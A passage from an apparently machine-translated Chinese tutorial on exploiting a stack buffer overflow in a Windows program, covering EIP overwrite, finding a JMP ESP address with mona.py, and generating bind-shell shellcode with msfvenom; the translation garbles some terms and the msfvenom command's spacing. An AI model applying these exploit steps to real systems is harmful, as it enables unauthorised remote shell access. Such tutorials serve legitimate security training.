 我们用\x42 * 4 覆盖了 EIP！

# **mona.py！**

mona.py 模块派上用场的时候到了。现在，我们需要在内存中找到一个调用 JMP ESP 命令的地址，我们将使用该地址来覆盖 EIP，这样在下一步中，我们将能够跳转到 ESP，执行 NOP sled，并最终执行我们的外壳代码。执行以下豁免命令:

！mona jmp -r esp

这将给你一个这个命令被执行的所有地址的列表。选择一个你喜欢的，例如 7C9D30EB，重新运行程序，并设置一个断点(F2)。修改脚本，用上述地址的十六进制值替换 B，并运行它(**注意:**您必须以 little endian '\xeb\x30\x9d\x7c ')的格式书写地址。之后，你通常应该点击如下所示的断点。

![](img/eba0794ebae29cc7d57d74e3b1f8d9ae.png)

我们碰到断点了！

# **外壳代码**

是时候扔了！唯一剩下的就是，生成一个外壳代码，打开一个端口让我们连接。为了生成外壳代码，我们将使用 msfvenom:

root @ shad 3:~/Desktop/buffer overflow/free float # MSF venom-p windows/shell _ bind _ TCP LPORT = 1337-e x86/shikata _ ga _ nai-b ' \ x00 \ x0A \ x0D '-I 3-f python
